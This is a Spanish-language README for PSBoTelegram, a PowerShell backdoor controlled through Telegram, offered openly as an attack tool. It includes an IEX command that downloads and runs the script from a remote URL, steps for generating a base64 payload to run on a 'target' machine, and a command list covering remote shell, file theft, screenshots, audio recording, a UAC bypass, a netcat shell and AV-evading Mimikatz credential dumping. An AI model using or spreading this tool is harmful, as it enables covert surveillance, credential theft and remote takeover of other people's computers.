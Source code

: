 # PsBoTelegram
Backdoor using Telegram and Powershell  

Podeis probar el script abriendo una consola de powershell y pegando esto:

**IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;

        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                        /____/

                                                     v0.5 by CyberVaca @ HackPlayers

PSBotTelegram es un script escrito en Powershell que nos crea una backdoor que se conecta a Telegram y se gestiona desde Telegram. Al ejecutar el script nos va a pedir tres datos necesarios para crear el shellcode. 

# Instalación en Linux

    apt-get update > /dev/null
    apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb

Los datos que nos pide son los siguientes:  

# Parametros
![Parametros](./images/parametros.png)  
 
**[+] Introduzca el Token del Bot de Telegram:** "Aquí deberemos poner el Token del bot que hayamos creado."  
**[+] Introduzca su Chat ID:** "Aquí deberemos poner nuestro ID de Telegram."  
**[+] Introduzca el delay para la conexión:** "En este campo seteamos el delay(retardo) entre en pc con el backdoor y nuestro chat de telegram"   

Una vez introducido estos datos, nos creará un shellcode en BASE64 para ejecutarlo en el equipo objetivo.  

# Funciones del backdoor.

[1]&nbsp;&nbsp;&nbsp;**/Help**&nbsp;&nbsp; (Nos muestra la ayuda)  
[2]&nbsp;&nbsp;&nbsp;**/Info**&nbsp;&nbsp; (Devuelve información sobre el equipo)   
[3]&nbsp;&nbsp;&nbsp;**/Shell**&nbsp;&nbsp; (/Shell + CmdLet a ejecutar )  
[4]&nbsp;&nbsp;&nbsp;**/Whoami**&nbsp;&nbsp; (Devuelve el usuario que ejecutó el codigo)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic**&nbsp;&nbsp; (Nos da IP publica, Pais y Ciudad del Target)  
[6]&nbsp;&nbsp;&nbsp;**/Kill**&nbsp;&nbsp; (Mata el backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport**&nbsp;&nbsp; (Importa el script de powershell pasandole una url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)**&nbsp;&nbsp; (Función de powercat https://github.com/besimorhino/powercat
)  
[9]&nbsp;&nbsp;&nbsp;**/Download**&nbsp;&nbsp; (Download mas ruta nos descarga el archivo)  
[10]&nbsp;&nbsp;**/Screenshot**&nbsp;&nbsp; (Realiza screenshot y nos lo envia)  
[11]&nbsp;&nbsp;**/Audio**&nbsp;&nbsp; (/Audio X, Grabaría X segundos de audio y nos lo envia)  
[12]&nbsp;&nbsp;**/Keylogger**&nbsp;&nbsp; (/Keylogger -- proximamente)  
[13]&nbsp;&nbsp;**/BypassUAC**&nbsp;&nbsp; (Ejecuta el Bot con privilegios administrativos)  
[14]&nbsp;&nbsp;**/Persistence**&nbsp;&nbsp; (/Persistence -- proximamente)  
[15]&nbsp;&nbsp;**/MimiGatoz**&nbsp;&nbsp; (Ejecuta Mimikatz modificado para el bypass AV y nos envia los datos)


